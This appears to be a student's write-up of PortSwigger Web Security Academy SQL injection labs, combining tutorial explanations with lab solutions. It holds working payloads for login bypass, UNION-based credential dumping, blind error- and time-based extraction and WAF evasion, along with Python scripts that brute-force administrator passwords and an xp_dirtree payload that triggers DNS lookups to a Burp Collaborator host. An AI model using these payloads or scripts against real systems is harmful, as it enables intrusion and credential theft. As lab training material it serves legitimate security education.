





## Detect SQL injection vulnerabilities

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. To do this, you would typically submit:

  -  The single quote character `'` and look for errors or other anomalies.

   - Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
   - Boolean conditions such as    `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
   - Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
  
  - OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.


SQL injection vulnerabilities can occur at any location within the query, and within different query types. Some other common locations where SQL injection arises are:

  -  In UPDATE statements, within the updated values or the WHERE clause.
  -  In INSERT statements, within the inserted values.
   - In SELECT statements, within the table or column name.
   - In SELECT statements, within the ORDER BY clause.

##  Retrieving hidden data

Imagine a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

This SQL query asks the database to return:

  -  all details (*)
   - from the `products` table
  -  where the `category` is Gifts
  -  and `released` is 1.

The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:

`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

 In this example, this means the query no longer includes `AND released = 1`. As a result, all products are displayed, including those that are not yet released.

A similar attack:

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

The modified query returns all items where either the category is Gifts, or 1 is equal to 1. As 1=1 is always true, the query returns all items. 

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Subverting application logic

Imagine an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

This query returns the user whose username is administrator and successfully logs the attacker in as that user.

### Lab: SQL injection vulnerability allowing login bypass
    
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

```python
import requests

url = "https://0a690032048432f485acdaf600830022.web-security-academy.net/login"
data = {
    "csrf": "lvxXeM7JPU7vEh0WzyYlY7gPTVMdSxrj",
    "username": "administrator'--",
    "password": "a"
}
headers = {
    "Cookie": "session=Uc2SzcvGN9NclNLPSEL59ouaD7Mlog2r"
}
res = requests.post(url,headers=headers, data=data)
print(res.status_code)
print(res.text)
```

## SQL injection UNION attacks

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example:
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

This SQL query returns a single result set with two columns, containing values from columns a and b in table1 and columns c and d in table2.

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
  
-  The data types in each column must be compatible between the individual queries.

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

- How many columns are being returned from the original query.
-    Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

## Determining the number of columns required

One method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the WHERE clause of the original query, you would submit:

`' ORDER BY 1--`

`' ORDER BY 2--`

`' ORDER BY 3--`

etc.

This series of payloads modifies the original query to order the results by different columns in the result set. The column in an ORDER BY clause can be specified by its index, so you don't need to know the names of any columns. When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:
**The ORDER BY position number 3 is out of range of the number of items in the select list.**

The application might actually return the database error in its HTTP response, but it may also issue a generic error response. In other cases, it may simply return no results at all. Either way, as long as you can detect some difference in the response, you can infer how many columns are being returned from the query.

 The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:

`' UNION SELECT NULL--`

`' UNION SELECT NULL,NULL--`

`' UNION SELECT NULL,NULL,NULL--`

etc.

If the number of nulls does not match the number of columns, the database returns an error, such as:
**All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.**

We use NULL as the values returned from the injected SELECT query because the data types in each column must be compatible between the original and the injected queries. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 

```python
import requests

url = "https://0a57002d0324b68c80551c0400fa006c.web-security-academy.net/filter?category=Corporate+gifts"
payload = "' union select null, null, null--"
headers = {
    "Cookie": "Z1rPfgMpksacFX91FHT92YC7ir52LG3F"
}

res = requests.get(url + payload, headers=headers)

print(res.status_code)
print(res.text)
```

### Lab: SQL injection UNION attack, finding a column containing text

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. 

First, I used the payload `' UNION SELECT NULL, ..., NULL--` to determine the number of columns. After testing with four NULL values, the web  returned a 500 error, which means there are 3 columns.



Next, to identify the data type of each column, I used the following payloads:

```
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
' UNION SELECT NULL,NULL,NULL--
```
I noticed that with the second payload, the page displayed normally, which indicates that the second column is of string type. Now, I just need to make the database retrieve the string 'jIVz1f' using the following payload:

`'+union+select+null,'Uyu5qA',null--`



## Using a SQL injection UNION attack to retrieve interesting data

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:

 -   The original query returns two columns, both of which can hold string data.
 -   The injection point is a quoted string within the WHERE clause.
 -   The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the users table by submitting the input:

`' UNION SELECT username, password FROM users--`

### Lab: SQL injection UNION attack, retrieving data from other tables

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

First, retrieve the table names using the following payload:

`'+union+select+null,table_name,null+from+information_schema.tables--`

From the response, we find some interesting tables such as **pg_class** and **pg_attribute**, which are **PostgreSQL** system tables. Among them, we also discover a table named **users**. Next, we check the columns in the users table using this payload:

`'+union+select+null,column_name+from+information_schema.columns+where+table_name='users'--`

The response indicates that the users table contains the following columns: email, password, and username.

Finally, retrieve the usernames and passwords with this payload:

`'+union+select+username,password+from+users--`



## Retrieving multiple values within a single column

In some cases the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

The results from the query contain all the usernames and passwords, for example:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

For this challenge, the first columns is not of string type, so I could use the payload:

`'+union+select+null,password||'~'||username+from+users--`



## Examining the database in SQL injection attacks

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

 -   The type and version of the database software.
 -   The tables and columns that the database contains.

 You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:
```
Database type 	Query
Microsoft, MySQL 	SELECT @@version
Oracle 	SELECT * FROM v$version
PostgreSQL 	SELECT version()
```
For example, you could use a UNION attack with the following input:
`' UNION SELECT @@version--`

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

To solve the lab, display the database version string. 

For this challenge, I use the payload:

`'+union+select+null,@@version#`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

To solve the lab, log in as the administrator user. 

For this challenge, I use the following payloads:

`'+union+select+null,table_name+from+information_schema.tables--`

`'+union+select+null,column_name+from+information_schema.columns+where+table_name='users_qkxifa'--`

`'+union+select+username_kjdhbe,password_ihczyp+from+users_qkxifa--`

## Blind SQL injection
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. 
### Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user:

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the Administrator user. 

### Lab: Blind SQL injection with conditional responses

To solve the lab, log in as the administrator user. 

For this challenge, I used the following script:
```python
import requests
import string
import time

url = "https://0acb00b604553375807430a400680000.web-security-academy.net/filter?category=Gifts"
chars = string.ascii_letters + string.digits + "!@#$%^&*()_+-=[]{}|;:,.<>?/\\"
password = ""
def test(payload):
    cookies = {
        "TrackingId": f"dDGeQctwLW3eyP9C{payload}",
        "session": "dbtW13tCC5ST8tR1zaUFc9B82NM0JRuP",
    }
    response = requests.get(url, cookies=cookies)
    print(response.status_code)
    return "Welcome" in response.text
for pos in range(1, 30):
    for char in chars:
        #time.sleep(0.1)
        payload = f"' AND (SELECT SUBSTRING(password,{pos},1) FROM users WHERE username='administrator') = '{char}'--"
        if test(payload):
            password += char
            print(password)
```

Consider a optimization by adding this:
```python
def find(pos):
    with ThreadPoolExecutor(max_workers=10) as executor: 
        futures = {executor.submit(test, pos, char): char for char in chars}
        for future in futures:
            result = future.result()
            if result:
                return result
    return None
```


## Error-based SQL injection

### Exploiting blind SQL injection by triggering conditional errors

To see how this works, suppose that two requests are sent containing the following **TrackingId** cookie values in turn:

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`

`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`

These inputs use the **CASE** keyword to test a condition and return a different expression depending on whether the expression is true:

 -   With the first input, the **CASE** expression evaluates to 'a', which does not cause any error.
 -   With the second input, it evaluates to **1/0**, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:
```
xyz' AND (SELECT CASE WHEN 
(Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
THEN 1/0 ELSE 'a' END FROM Users)='a
```

### Explanation of Components:

1. `xyz' AND:`
    - This starts the injection by ending the current query or statement (with the single quote) and appending the logical `AND` condition.

2. `(SELECT CASE WHEN (...) THEN 1/0 ELSE 'a' END FROM Users):`
    - This is a subquery with a `CASE` statement:
        - `CASE WHEN:` Evaluates a condition.
        - `THEN 1/0:` If the condition is `TRUE`, a divide-by-zero error is triggered.
        - `ELSE 'a':` If the condition is `FALSE`, it returns the value `'a'`, avoiding an error.

3. `(Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm'):`
    - `Username = 'Administrator':` Targets the row where the username is `Administrator`.
    - `SUBSTRING(Password, 1, 1):` Extracts the first character of the password.
    - `> 'm':` Compares the first character of the password to `'m'` in ASCII order.

4. `FROM Users:`
    - Specifies the table (`Users`) where the query operates.

5. `='a':`
    - The result of the `CASE` statement is compared to `'a'`.
    - If the condition is `FALSE`, the query executes without errors, and the response remains normal.
    - If the condition is `TRUE`, a divide-by-zero error occurs, and the application's response changes.


### Lab: Blind SQL injection with conditional errors

To solve the lab, log in as the administrator user. 

Solution:

1. Test with `TrackingId=xyz'`, an error apear
2. Confirm that the server is interpreting the injection as a SQL query `TrackingId=xyz'||(SELECT '')||'`, noticed that the response is valid.
3. Guess database name, for example:

| Database   | Metadata Table/Schema          | Example Query                                                               |
|-----------------|------------------------------------|---------------------------------------------------------------------------------|
| Oracle      | DUAL, ALL_TABLES              | SELECT 'Test' FROM DUAL;                                                     |
| MySQL       | information_schema.TABLES       | SELECT * FROM information_schema.TABLES;                                     |
| PostgreSQL  | pg_catalog.pg_tables            | SELECT * FROM pg_catalog.pg_tables WHERE schemaname = 'public';              |
| SQL Server  | sys.tables or INFORMATION_SCHEMA.TABLES | SELECT * FROM sys.tables;                                             |
| SQLite      | sqlite_master                   | SELECT name, type FROM sqlite_master WHERE type = 'table';                   |
| MariaDB     | information_schema.TABLES       | SELECT * FROM information_schema.TABLES;                                     |
| IBM Db2     | SYSCAT.TABLES                   | SELECT * FROM SYSCAT.TABLES;                                                 |
| Snowflake   | INFORMATION_SCHEMA.TABLES       | SELECT * FROM INFORMATION_SCHEMA.TABLES;                                  |

Tested with `TrackingId=xyz'||(SELECT '' FROM dual)||'`, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name. 

4. To verify that the users table exists, send the following query:

`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation. 

5. You can also exploit this behavior to test conditions. First, submit the following query:
 
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Verify that an error message is received.
Now change it to:

`TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Verify that the error disappears. 

6. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Verify that the condition is true (the error is received), confirming that there is a user called administrator.

7. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Then send:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

And so on

8.  The next step is to test the character at each position to determine its value.

Go to Burp Intruder and change the value of the cookie to:

`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Then send:

`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Python script:
```python
import requests

url = "https://0a41008404768dd38175bca9001700e7.web-security-academy.net/filter?category=Gifts"
cookies = {"session": "qGFjPJIOkdDlqJPF9OApFEzoqknMBNHn", "TrackingId": "GL48PGItA4XoAQZS"}

def checkPayLoad(payload):
    cookiesPayload = cookies.copy()
    cookiesPayload["TrackingId"] = cookiesPayload["TrackingId"] + payload
    r = requests.get(url, cookies=cookiesPayload)
    if 'Gifts' in r.text:
        return False
    else:  
        return True
    
#checkPayLoad("'||(select '' from dual)||'")
chars = "abcdefghijklmnopqrstuvwxyz0123456789-_"
name = ""
for pos in range(1, 21):
    for char in chars:
        if checkPayLoad(f"'||(select CASE when substr(password,{pos},1) = '{char}' THEN to_char(1/0) ELSE '' END from users where username = 'administrator')||'") == True:
            print(f"Found char {char} at position {pos}")
            name += char
            break
print(name)
```

### Lab: Visible error-based SQL injection

`' and 1=cast((select 1) as int)--`

`' and 1=cast((select username from users) as int)--`

`' and 1=cast((select username from users limit 1) as int)--`

`' and 1=cast((select password from users limit 1) as int)--`

## Exploiting blind SQL injection by triggering time delays

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

### Lab: Blind SQL injection with time delays and information retrieval

`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END--;`

`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--`


`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```python
import requests
import time

url = "https://0a44006a04d440c481eb1b6900d80042.web-security-academy.net/filter?category=Gifts"
cookies = {
    "TrackingId": "yunGCtJo2eYBUC6i",
    "session": "mWuLYM4E8hgLjdJzUSvyb5t25jwlLE8t"
}

def getTime(payload):
    cookies_payload = cookies.copy()
    cookies_payload["TrackingId"] += payload
    start_time = time.time()
    response = requests.get(url, cookies=cookies_payload)
    elapsed_time = time.time() - start_time
    return elapsed_time

def extractPassword():
    extracted_password = ""
    chars = "abcdefghijklmnopqrstuvwxyz0123456789-_"

    for pos in range(1, 21):
        for char in chars:
            payload = f"'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{pos},1)='{char}')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"
            time = getTime(payload)
            if time > 1.5:
                print(f"Found character '{char}' at position {pos}")
                extracted_password += char
                break
    return extracted_password

password = extractPassword()
print(password)
```

## Exploiting blind SQL injection using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

This causes the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur. 

## SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT:
```html
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.
